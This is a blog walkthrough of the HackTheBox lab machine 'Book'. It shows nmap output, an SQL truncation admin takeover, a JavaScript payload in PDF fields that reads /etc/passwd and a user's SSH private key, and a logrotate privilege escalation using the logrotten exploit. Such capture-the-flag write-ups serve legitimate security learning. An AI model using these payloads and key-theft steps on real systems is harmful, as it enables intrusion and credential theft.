 ```yaml
---
layout: post
title:  htb-book
category: walkthrough
date:   2020-07-25 07:00:00
---
```


# Enum
### NMAP

As always, begin with nmap  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
Opening the port 80 I got this  
![book1](/assets/img/book/book1.png)

After register I found the admin  email: admin@book.htb  
![book2](/assets/img/book/book3.png)

At first I didn't know what to do with this  
Until I back to home page, look the source and find this  
![book3](/assets/img/book/book2.png)  

### SQL Truncation

Using *[SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack/)* with Burp Suite I tested "name" and "email" fields with more characters  

![book4](/assets/img/book/book4.png)  

Logged in with the credentials admin@book.htb qwerty  

![book5](/assets/img/book/book5.png)  

Using *[this](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)* as reference I found a way in  
### Exploit

Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script  
\*Missing tags  

x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();  

Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd  

![book6](/assets/img/book/book6.png)  

If I was runnin to get user blood next step would be "file:///home/reader/user.txt"  

Before get the id\_rsa from reader I tried root, perhaps....  

Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader  

Copy that to another file called id\_rsa and "chmod 600 id\_rsa"  

![book7](/assets/img/book/book7.png)  

Now just "ssh -i id\_rsa reader@10.10.10.176" and smile  

![book8](/assets/img/book/book8.png)
# Priv Esc

After a enumerte almost everything and don't find nothing  

I used [pspy](https://github.com/DominicBreuker/pspy.git) and find root process  
scp -i id\_rsa pspy64s reader@10.10.10.176  


pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg  

![book9](/assets/img/book/book9.png)

Search logrotate exploit in google and found [this](https://github.com/whotwagner/logrotten) on github  
Cloned the repository and uploaded it with scp command  
Unziped the archive and compiled the logrotten.c with gcc

gcc -o logrotten logrotten.c  

Created the payload  and executed logrotten

![book10](/assets/img/book/book10.png)  

Now just cat /tmp/id\_rsa to another file and ssh to root


![book11](/assets/img/book/book11.png)  
![book12](/assets/img/book/book12.png)  

